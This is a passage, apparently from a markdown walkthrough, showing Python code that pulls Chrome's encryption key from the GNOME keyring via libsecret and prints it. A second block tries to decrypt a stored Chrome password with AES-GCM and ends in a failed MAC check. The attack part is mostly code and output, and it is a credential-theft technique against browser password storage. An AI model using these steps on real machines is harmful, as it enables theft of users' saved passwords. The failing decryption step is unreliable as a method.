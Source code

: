 **Method: Python libsecret library**

```python
import gi
gi.require_version('Secret', '1')
from gi.repository import Secret

# Access GNOME keyring
schema = Secret.Schema.new("chrome_libsecret_os_crypt_password_v2",
    Secret.SchemaFlags.NONE,
    {
        "application": Secret.SchemaAttributeType.STRING,
    })

# Extract Chrome's encryption key
password = Secret.password_lookup_sync(schema, {"application": "chrome"}, None)

print(password)  # C2gtFD8q3fBa2WVpYmpqHQ==
```

**Result:** ✅ **SUCCESSFULLY EXTRACTED CHROME KEY!**

**Key details:**
- Base64: `C2gtFD8q3fBa2WVpYmpqHQ==`
- Decoded: 16 bytes (128-bit)
- Problem: Chrome uses 256-bit AES (needs 32 bytes!)

---

#### Step 3.3: Attempt Password Decryption

**Try to decrypt first account:**

```python
from Crypto.Cipher import AES
import base64

# Decode the key
chrome_key = base64.b64decode("C2gtFD8q3fBa2WVpYmpqHQ==")
# Result: 16 bytes (need 32!)

# Get encrypted password
enc_password = b'v11\xf6\xe9T\xc9\x80\x17\xd0\xd3\x8e\x12;P\xea^\x9d2'

# Parse encryption components
nonce = enc_password[3:15]      # 12 bytes
ciphertext = enc_password[15:-16]  # encrypted data
tag = enc_password[-16:]        # authentication tag

# Attempt decryption
cipher = AES.new(chrome_key, AES.MODE_GCM, nonce=nonce)
plaintext = cipher.decrypt_and_verify(ciphertext, tag)
```

**Result:** ❌ **MAC check failed**
